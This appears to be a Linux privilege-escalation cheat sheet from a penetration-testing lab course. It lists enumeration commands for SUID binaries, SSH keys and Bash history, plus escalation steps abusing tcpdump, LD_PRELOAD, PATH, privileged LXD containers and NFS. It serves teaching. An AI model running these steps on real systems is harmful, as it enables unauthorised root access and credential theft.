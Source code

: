 The cheat sheet is a useful command reference for this module.

| **Command**                                                                         | **Description**                                       |
| ----------------------------------------------------------------------------------- | ----------------------------------------------------- |
| `ssh htb-student@<target IP>`                                                       | SSH to lab target                                     |
| `ps aux \| grep root`                                                               | See processes running as root                         |
| `ps au`                                                                             | See logged in users                                   |
| `ls /home`                                                                          | View user home directories                            |
| `ls -l ~/.ssh`                                                                      | Check for SSH keys for current user                   |
| `history`                                                                           | Check the current user's Bash history                 |
| `sudo -l`                                                                           | Can the user run anything as another user?            |
| `ls -la /etc/cron.daily`                                                            | Check for daily Cron jobs                             |
| `lsblk`                                                                             | Check for unmounted file systems/drives               |
| `find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null`                       | Find world-writeable directories                      |
| `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`                       | Find world-writeable files                            |
| `uname -a`                                                                          | Check the Kernel versiion                             |
| `cat /etc/lsb-release`                                                              | Check the OS version                                  |
| `gcc kernel_expoit.c -o kernel_expoit`                                              | Compile an exploit written in C                       |
| `screen -v`                                                                         | Check the installed version of `Screen`               |
| `./pspy64 -pf -i 1000`                                                              | View running processes with `pspy`                    |
| `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SUID bit set                   |
| `find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null`                     | Find binaries with the SETGID bit set                 |
| `sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root` | Priv esc with `tcpdump`                               |
| `echo $PATH`                                                                        | Check the current user's PATH variable contents       |
| `PATH=.:${PATH}`                                                                    | Add a `.` to the beginning of the current user's PATH |
| `find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`                   | Search for config files                               |
| `ldd /bin/ls`                                                                       | View the shared objects required by a binary          |
| `sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`                            | Escalate privileges using `LD_PRELOAD`                |
| `readelf -d payroll \| grep PATH`                                                   | Check the RUNPATH of a binary                         |
| `gcc src.c -fPIC -shared -o /development/libshared.so`                              | Compiled a shared libary                              |
| `lxd init`                                                                          | Start the LXD initialization process                  |
| `lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`                  | Import a local image                                  |
| `lxc init alpine r00t -c security.privileged=true`                                  | Start a privileged LXD container                      |
| `lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`      | Mount the host file system in a container             |
| `lxc start r00t`                                                                    | Start the container                                   |
| `showmount -e 10.129.2.12`                                                          | Show the NFS export list                              |
| `sudo mount -t nfs 10.129.2.12:/tmp /mnt`                                           | Mount an NFS share locally                            |
| `tmux -S /shareds new -s debugsess`                                                 | Created a shared `tmux` session socket                |
| `./lynis audit system`                                                              | Perform a system audit with `Lynis`                   |